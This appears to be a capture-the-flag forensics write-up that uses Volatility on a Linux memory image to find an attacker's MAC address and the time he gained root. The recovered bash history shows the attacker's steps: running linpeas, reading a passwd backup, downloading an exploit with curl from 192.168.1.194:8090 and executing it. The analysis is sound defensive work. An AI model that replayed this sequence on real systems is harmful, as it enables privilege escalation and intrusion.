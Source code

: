 We setup volatility and get the available commands:

```
python vol.py --plugins=profiles/ --profile=LinuxUbuntu_3_13_0-32-genericx64 -f workdir/file.bin  --debug -h
```

1. What is the MAC address of the attacker machine?

```
python vol.py --plugins=profiles/ --profile=LinuxUbuntu_3_13_0-32-genericx64 -f workdir/file.bin  linux_arp
Volatility Foundation Volatility Framework 2.6.1
[ff02::1:ffcc:dde0                         ] at 33:33:ff:cc:dd:e0    on eth0
[ff02::2                                   ] at 33:33:00:00:00:02    on eth0
[ff02::16                                  ] at 33:33:00:00:00:16    on eth0
[192.168.1.1                               ] at 50:c7:bf:32:01:04    on eth0
[127.0.0.1                                 ] at 00:00:00:00:00:00    on lo
[192.168.1.194                             ] at 38:14:28:0b:12:de    on eth0
```

Should be the last one `38:14:28:0b:12:de`.

2. What is the full time of the moment when the attacker elevated his privileges to root?

```
2021-11-24 12:32:11 UTC+0000
```

Using this:

```
python vol.py --plugins=profiles/ --profile=LinuxUbuntu_3_13_0-32-genericx64 -f workdir/file.bin  linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1045 bash                 2021-11-24 12:20:13 UTC+0000   ip a s
    1045 bash                 2021-11-24 12:20:16 UTC+0000   ip link
    1045 bash                 2021-11-24 12:20:18 UTC+0000   arp -a
   18943 bash                 2021-11-24 12:25:09 UTC+0000   id
   18943 bash                 2021-11-24 12:25:11 UTC+0000   whoami
   18943 bash                 2021-11-24 12:25:20 UTC+0000   ls -al
   18943 bash                 2021-11-24 12:25:25 UTC+0000   cat .bash_history
   18943 bash                 2021-11-24 12:25:32 UTC+0000   history
   18943 bash                 2021-11-24 12:25:48 UTC+0000   ls
   18943 bash                 2021-11-24 12:25:48 UTC+0000   cd /dev/shm
   18943 bash                 2021-11-24 12:26:00 UTC+0000   ./linpeas.sh > linpeas2.out
   18943 bash                 2021-11-24 12:26:27 UTC+0000   cat linpeas2.out
   18943 bash                 2021-11-24 12:26:31 UTC+0000   cat linpeas2.out | grep passwd
   18943 bash                 2021-11-24 12:26:43 UTC+0000   cp /var/backups/passwd.bak /dev/shm
   18943 bash                 2021-11-24 12:26:44 UTC+0000   ls
   18943 bash                 2021-11-24 12:26:48 UTC+0000   cat passwd.bak
   18943 bash                 2021-11-24 12:27:02 UTC+0000   cat linpeas2.out
   18943 bash                 2021-11-24 12:27:39 UTC+0000   cat linpeas2.out | grep CVE
   18943 bash                 2021-11-24 12:31:20 UTC+0000   curl 192.168.1.194:8090/cve.c
   18943 bash                 2021-11-24 12:31:31 UTC+0000   curl 192.168.1.194:8090/cve.c -o cve.c
   18943 bash                 2021-11-24 12:32:11 UTC+0000   ./cve
    4504 bash                 2021-11-24 12:55:00 UTC+0000   cd /dev/shm
    4504 bash                 2021-11-24 12:55:01 UTC+0000   ls
    4504 bash                 2021-11-24 12:55:02 UTC+0000   ./cve
```
